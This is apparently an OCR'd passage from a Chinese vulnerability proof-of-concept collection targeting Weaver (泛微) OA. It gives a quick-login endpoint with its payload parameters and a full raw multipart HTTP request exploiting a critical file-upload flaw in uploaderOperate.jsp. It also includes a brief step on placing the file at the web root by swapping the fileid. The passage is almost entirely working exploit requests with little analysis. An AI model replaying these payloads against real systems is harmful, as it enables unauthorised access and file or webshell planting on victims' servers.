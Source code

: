 漏洞poc

url：

```
/mobile/plugin/VerifyQuickLogin.jsp
```

payload：

```
identifier=1&language=1&ipaddress=
```





## 泛微 OA 文件上传

漏洞等级：严重

漏洞详情：/workrelate/plan/util/uploaderOperate.jsp 存在文件上传漏洞

```
POST /workrelate/plan/util/uploaderOperate.jsp HTTP/1.1 
Host: X.X.X.X 
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101" 
Sec-Ch-Ua-Mobile: ?0 
Sec-Ch-Ua-Platform: "macOS" 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/ *;q=0.8,application/signed-exchange;v=b3;q=0.9 
Sec-Fetch-Site: none 
Sec-Fetch-Mode: navigate 
Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8 
Connection: close 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymVk33liI64J7GQaK 
Content-Length: 393 
------WebKitFormBoundarymVk33liI64J7GQaK 
Content-Disposition: form-data; name="secId" 
1 
------WebKitFormBoundarymVk33liI64J7GQaK 
Content-Disposition: form-data; name="Filedata"; filename="testlog.txt" 
Test 
------WebKitFormBoundarymVk33liI64J7GQaK Content-Disposition: form-data; name="plandetailid" 
1 
------WebKitFormBoundarymVk33liI64J7GQaK—
```

将文件释放至跟网站根路径下 在数据包中将 fileid 替换
